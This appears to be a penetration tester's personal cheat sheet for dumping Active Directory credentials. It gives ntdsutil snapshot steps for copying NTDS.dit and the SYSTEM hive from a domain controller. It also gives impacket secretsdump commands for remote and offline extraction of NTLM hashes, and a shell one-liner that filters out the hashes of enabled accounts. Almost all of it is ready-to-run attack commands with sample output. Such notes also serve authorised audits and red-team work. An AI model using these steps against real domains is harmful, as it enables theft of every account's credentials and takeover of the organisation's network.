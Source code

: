 ### Local DC

C:\Windows\system32>C:

C:\Windows\system32>cd ..
C:\Windows>cd ..

C:\>cd Users	

C:\Users>cd <admin_user>

Change into your admin user directory.

C:\Users\nta007>**ntdsutil**
ntdsutil: **activate instance ntds**

Active instance set to "ntds".

ntdsutil: **snapshot**

snapshot: **create**

Creating snapshot...

Snapshot set {b40f54c1-53eb-46f0-be7c-26c34a9c7bf3} generated successfully.

snapshot: **mount {b40f54c1-53eb-46f0-be7c-26c34a9c7bf3}**

```
Snapshot {9f19050e-7b5f-4c49-bbfe-0ebc8e19ad29} mounted as C:\$SNAP_201801091253_VOLUMED$\
Snapshot {567151f7-e1ba-430c-8681-1b236dac9b35} mounted as C:\$SNAP_201801091253_VOLUMEC$\
Snapshot {81fc6e66-5dae-44a7-8df6-c5fc56e096b5} mounted as C:\$SNAP_201801091253_VOLUMEE$\
```

Grab your bits here!

snapshot: **delete {b40f54c1-53eb-46f0-be7c-26c34a9c7bf3}**
```
Snapshot {9f19050e-7b5f-4c49-bbfe-0ebc8e19ad29} unmounted.
Snapshot {9f19050e-7b5f-4c49-bbfe-0ebc8e19ad29} deleted.
Snapshot {567151f7-e1ba-430c-8681-1b236dac9b35} unmounted.
Snapshot {567151f7-e1ba-430c-8681-1b236dac9b35} deleted.
Snapshot {81fc6e66-5dae-44a7-8df6-c5fc56e096b5} unmounted.
Snapshot {81fc6e66-5dae-44a7-8df6-c5fc56e096b5} deleted.
```

snapshot: **quit**

ntdsutil: **quit**

C:\Users\nta007>




GET THE SYSTEM FILE ASWELL (WINDOWS SYSTEM32 CONFIG)
C:\Windows\System32\Config
SYSTEM
NTDS - in the windows folder

### Remote
impacket-secretsdump -just-dc-ntlm FQDN/DA-account@DC-IP

***New commands*** (python3.9)
/usr/share/doc/python3-impacket/examples/secretsdump.py -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash -user-status -outputfile <filename> local
cat hashes | grep -v "$:" | grep "status=Enabled" | cut -d'\' -f2 | cut -d"(" -f1 < for getting just the hashes
